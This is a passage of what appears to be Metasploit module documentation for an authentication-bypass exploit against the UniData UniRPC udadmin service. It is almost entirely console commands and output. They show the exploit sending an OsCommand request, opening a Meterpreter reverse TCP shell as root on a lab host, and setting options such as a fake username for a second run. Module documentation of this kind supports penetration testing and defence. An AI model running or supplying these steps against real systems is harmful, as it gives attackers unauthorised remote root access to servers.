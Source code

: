 ```

Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - Detected UniRPC version 8.2.4 is running
[!] 10.0.0.198:31438 - The service is running, but could not be validated.
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as :local: / root:0:1000
[*] 10.0.0.198:31438 - Sending OsCommand request
[*] Sending stage (24772 bytes) to 10.0.0.198
[*] Meterpreter session 1 opened (10.0.0.227:4444 -> 10.0.0.198:54560) at 2023-04-11 09:36:56 -0700

meterpreter > getuid
Server username: root
```

### Version 8.2.4 with invalid user

```
msf > use exploit/linux/misc/unidata_udadmin_auth_bypass
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set LHOST ens160
LHOST => ens160

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set RHOST 10.0.0.198
RHOST => 10.0.0.198

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIDATA_VERSION 8.2.4
[-] Unknown datastore option: UNIDATA_VERSION.

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set VERBOSE true
VERBOSE => true

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > set UNIRPC_USERNAME fake
UNIRPC_USERNAME => fake

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > show options

Module options (exploit/linux/misc/unidata_udadmin_auth_bypass):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   RHOSTS           10.0.0.198       yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT            31438            yes       The target port (TCP)
   SSL              false            no        Negotiate SSL for incoming connections
   SSLCert                           no        Path to a custom SSL certificate (default is randomly generated)
   UNIRPC_GID       1000             yes       gid to authenticate with (must not be 0, does not need to correspond to the username)
```